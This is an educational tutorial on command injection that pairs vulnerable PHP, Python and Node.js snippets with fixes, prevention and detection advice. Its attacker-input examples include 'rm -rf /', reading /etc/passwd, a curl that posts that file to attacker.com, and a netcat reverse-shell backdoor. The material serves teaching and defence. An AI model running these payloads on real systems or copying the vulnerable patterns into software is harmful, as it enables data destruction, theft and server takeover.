

# Command Injection

<span style="color: inherit;">Command Injection</span> occurs when server-side code (like <span style="color: inherit;">PHP</span>) in a web application makes a call to a function that interacts with the server's console directly. An injection web vulnerability allows an attacker to take advantage of that call to execute operating system commands arbitrarily on the server. The possibilities for the attacker from here are endless: they could list files, read their contents, run some basic commands to do some recon on the server or whatever they wanted, just as if they were sitting in front of the server and issuing commands directly into the command line.

Once the attacker has a foothold on the web server, they can start the usual enumeration of your systems and look for ways to pivot around.

Command Injection is a serious security vulnerability that occurs when an application executes system commands using user input without proper validation or sanitization. This allows attackers to execute arbitrary commands on the server, potentially taking control of the system.

### Why is Command Injection Dangerous?

- **Remote Code Execution (RCE):** Attackers can run arbitrary system commands.
- **Full System Compromise:** Attackers can create, delete, or modify files.
- **Data Breaches:** Confidential information can be accessed or leaked.
- **Denial of Service (DoS):** Attackers can crash or overload a system.
- **Lateral Movement:** Attackers can pivot to other machines in the network.

&nbsp;

## **How Command Injection Works**

Command Injection exploits insecure **shell command execution** functions, such as:

- **Python:** `os.system()`, `subprocess.call()`
- **PHP:** `exec()`, `shell_exec()`
- **Node.js:** `child_process.exec()`
- **Java:** `Runtime.getRuntime().exec()`
- **Bash/Powershell:** Direct command execution

&nbsp;

## Code Example

Let's consider a scenario: MooCorp has started developing a web-based application for cow ASCII art with customisable text. While searching for ways to implement their app, they've come across the `cowsay` command in <span style="color: inherit;">Linux</span>, which does just that! Instead of coding a whole web application and the logic required to make cows talk in ASCII, they decide to write some simple code that calls the cowsay command from the operating system's console and sends back its contents to the website.

Let's look at the code they used for their app. See if you can determine why their implementation is vulnerable to <span style="color: inherit;">command injection</span>. We'll go over it below.

```php
<?php
    if (isset($_GET["mooing"])) {
        $mooing = $_GET["mooing"];
        $cow = 'default';

        if(isset($_GET["cow"]))
            $cow = $_GET["cow"];
        
        passthru("perl /usr/bin/cowsay -f $cow $mooing");
    }
?>
```

In simple terms, the above snippet does the following:

1.  Checking if the parameter "mooing" is set. If it is, the variable `$mooing` gets what was passed into the input field.
2.  Checking if the parameter "cow" is set. If it is, the variable `$cow` gets what was passed through the parameter.
3.  The program then executes the function `passthru("perl /usr/bin/cowsay -f $cow $mooing");`. The passthru function simply executes a command in the operating system's console and sends the output back to the user's browser. You can see that our command is formed by concatenating the <span style="color: #2dc26b;">$cow</span> and <span style="color: #2dc26b;">$mooing</span> variables at the end of it. Since we can manipulate those variables, we can try injecting additional commands by using simple tricks. If you want to, you can read the docs on `passthru()` on [<span style="color: inherit;">PHP</span>'s website](https://www.php.net/manual/en/function.passthru.php) for more information on the function itself.


&nbsp;

## Exploiting <span style="color: inherit;">Command Injection</span>

Now that we know how the application works behind the curtains, we will take advantage of a bash feature called "inline commands" to abuse the cowsay server and execute any arbitrary command we want. Bash allows you to run commands within commands. This is useful for many reasons, but in our case, it will be used to inject a command within the cowsay server to get it executed.

To execute inline commands, you only need to enclose them in the following format `$(your_command_here)`. If the console detects an inline command, it will execute it first and then use the result as the parameter for the outer command. Look at the following example, which runs `whoami` as an inline command inside an `echo` command:


So coming back to the cowsay server, here's what would happen if we send an inline command to the web application:



Since the application accepts any input from us, we can inject an inline command which will get executed and used as a parameter for cowsay. This will make our cow say whatever the command returns! In case you are not that familiar with <span style="color: inherit;">Linux</span>, here are some other commands you may want to try:

- whoami
- id
- ifconfig/ip addr
- uname -a
- ps -ef

&nbsp; 

* * *

## Common Command Injection Attack Scenarios

### 1\. Unvalidated Input Passed to System Commands

**Example (Vulnerable Python Code)**

```python
import os
filename = input("Enter filename: ")
os.system("cat " + filename)  # ❌ Vulnerable
```

**Attacker Input:**

```bash
file.txt; rm -rf /  # Deletes all files on the system
```

**Resulting Command Execution:**

```sh
cat file.txt; rm -rf /
```

The entire filesystem is deleted!

### **Fix**

- Use a safer alternative (e.g., subprocess.run with an argument list)

```python
import subprocess
filename = input("Enter filename: ")
subprocess.run(["cat", filename], check=True)  # ✅ Safe
```

- Validate and sanitize user input.
- Use allowlists to restrict filenames (e.g., only `.txt` files).

* * *

### 2\. Chaining Commands Using `&&`, `||`, `;`

Many systems allow command chaining using operators like:

- `;` → Run multiple commands sequentially.
- `&&` → Run the second command **only if the first succeeds**.
- `||` → Run the second command **only if the first fails**.

**Example (Vulnerable PHP Code)**

```php
<?php
$ip = $_GET['ip'];
system("ping -c 4 " . $ip);
?>
```

**Attacker Input:**

```bash
127.0.0.1 && cat /etc/passwd
```

**Resulting Command Execution:**

```sh
ping -c 4 127.0.0.1 && cat /etc/passwd
```

Leaking sensitive system information!

### **Fix**

- Use escapeshellarg() or escapeshellcmd() to sanitize input.

```php
<?php
$ip = escapeshellarg($_GET['ip']);
system("ping -c 4 " . $ip);
?>
```

- Use built-in functions instead of executing system commands.

```php
<?php
$ip = filter_var($_GET['ip'], FILTER_VALIDATE_IP);
if ($ip) {
    echo shell_exec("ping -c 4 " . $ip);
}
?>
```

* * *

### 3\. Redirecting Output & Exfiltrating Data

Attackers can **redirect output** of commands to external servers.

**Example (Vulnerable Node.js Code)**

```js
const { exec } = require('child_process');
app.get('/run', (req, res) => {
    let cmd = req.query.cmd;
    exec(cmd, (error, stdout, stderr) => {
        res.send(stdout);
    });
});
```

**Attacker Input:**

```bash
cat /etc/passwd > /tmp/output.txt && curl -X POST http://attacker.com --data @/tmp/output.txt
```

This sends user credentials to an external attacker-controlled server!

### **Fix**

- Use predefined command lists instead of executing raw user input.
- Run commands in isolated environments (e.g., Docker, chroot, SELinux).
- Restrict outgoing network connections to prevent data exfiltration.

* * *

### 4\. Writing Backdoors & Persistent Access

Once an attacker gets command execution, they can install backdoors.

**Example Attack:**

```bash
echo 'nc -e /bin/bash attacker.com 4444' > /tmp/backdoor.sh; chmod +x /tmp/backdoor.sh; /tmp/backdoor.sh
```

This opens a reverse shell, allowing the attacker to control the server remotely.

### **Fix**

- Restrict execution permissions using AppArmor, SELinux, or seccomp.
- Use allowlists to prevent execution of untrusted scripts.
- Monitor logs for suspicious command executions.

&nbsp;

* * *

## How to Prevent Command Injection

### 1\. Use Safer Alternatives (Avoid `exec()`, `system()`, etc.)

- Use built-in functions instead of executing shell commands.
- Example: Instead of `system("ls -la")`, use `readdir()` in PHP or `os.listdir()` in Python.

### 2\. Use Parameterized Commands

- Instead of passing raw user input, use an array format to prevent shell interpretation.

```python
import subprocess
filename = "safe_file.txt"
subprocess.run(["ls", "-la", filename])  # ✅ Safe
```

### 3\. Validate & Sanitize User Input

- Use allowlists for expected inputs (e.g., valid filenames, IPs).
- Reject input containing special characters (`; | & $ > <`).
- Example input validation in Python:

```python
import re
def is_valid_filename(filename):
    return re.match(r'^[a-zA-Z0-9_\-\.]+$', filename) is not None
```

### 4\. Run Commands in Restricted Environments

- Use chroot, containers (Docker), or virtual machines to isolate processes.
- Example: Run commands inside a Docker container:

```sh
docker run --rm -it my_secure_container
```

### 5\. Apply Least Privilege Principle

- Restrict the permissions of the user running commands.
- Example: Disable root access for web applications.

### 6\. Monitor & Log Suspicious Activity

- Log all command executions and alert on anomalies.
- Example using `auditd` in Linux:

```sh
auditctl -a always,exit -F arch=b64 -S execve -k command_exec
```

&nbsp;

## How to Detect Command Injection

### Manual Testing

- Try injecting special characters (`; | & $ > <`).
- Modify request parameters in **Burp Suite, OWASP ZAP, or Postman**.

### Automated Scanners

- **Burp Suite Active Scanner** (Finds command injection points).
- **OWASP ZAP** (Automated web vulnerability scanner).
- **Nikto** (Finds web server vulnerabilities).
- **Metasploit** (Exploits known command injection vulnerabilities).

&nbsp;

* * *

## Conclusion

Command Injection is one of the **most severe security risks**, allowing attackers to **run arbitrary system commands, steal data, and gain full control** over a system. Preventing it requires **strict input validation, safe execution methods, and restricting system privileges**.